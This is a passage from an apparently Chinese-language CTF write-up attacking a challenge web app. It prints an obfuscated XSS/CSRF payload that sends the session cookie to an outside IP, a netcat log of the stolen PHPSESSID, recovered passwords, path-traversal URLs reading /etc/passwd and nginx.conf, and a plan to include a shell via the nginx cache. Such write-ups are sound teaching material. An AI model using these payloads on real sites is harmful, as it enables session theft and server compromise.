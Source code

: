   ```html
  <form name="x" action="http://ctf.momomoxiaoxi.com/api.php" method="post">
      <input type="hidden" name="token" value="e70587b636fbd1193<svg onload='img = new Image(); img.src=String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 50, 48, 50, 46, 49, 49, 50, 46, 53, 49, 46, 49, 51, 53, 58, 57, 48, 57, 48, 47, 63, 122, 61)+document.cookie;'>">
      <input type="hidden" name="action" value="get_password">
      <input type="hidden" name="username" value="admin">
  
  </form>
  <script>document.x.submit()</script>
  ```

窃取到cookie

```bash
ubuntu@ubuntu:~$ nc -l 9090
GET /?z=PHPSESSID=krpmh7ui84dgqvqd54ekffefn7 HTTP/1.1
Referer: http://ctf.momomoxiaoxi.com/api.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en,*
Host: 202.112.51.135:9090
```

登陆后，获得密码

| Username   | Password            | Email                  |
| ---------- | ------------------- | ---------------------- |
| admin      | 0mgH@rdP@sS         | admin@timehackers      |
| jonny      | j0HhNy1337          | jonny@timehackers      |
| pro_hacker | M@kE_L0Ve_St0P_H@cK | pro_hacker@timehackers |

然后，在logout处发现文件包含漏洞

```url
http://ctf.momomoxiaoxi.com/admin.php?p=logout.php
http://ctf.momomoxiaoxi.com/admin.php?p=../../../../../../../../etc/passwd
http://ctf.momomoxiaoxi.com/admin.php?p=../../../../../../../../etc/nginx/nginx.conf
```

联想到前面的nginx缓存，我们可以利用缓存机制写一个shell到缓存中，并使用文件包含，包含缓存。（这个思路有点像把一个shell写入日志，再包含的概念）

查看nginx的缓存配置：

http://ctf.momomoxiaoxi.com/admin.php?p=../../../../../../../../etc/nginx/nginx.conf

```
http {
  ##
  # Cache
  ##

  proxy_cache_path /var/lib/nginx/cache levels=1:2 keys_zone=backcache:8m max_size=50m;
  #proxy_cache_key "$scheme$request_method$host$request_uri$is_args$args";
  proxy_cache_key "$host$request_uri";
  proxy_cache_valid 200 302 10m;
  proxy_cache_valid 404 1m;
  proxy_cache_methods GET;
```
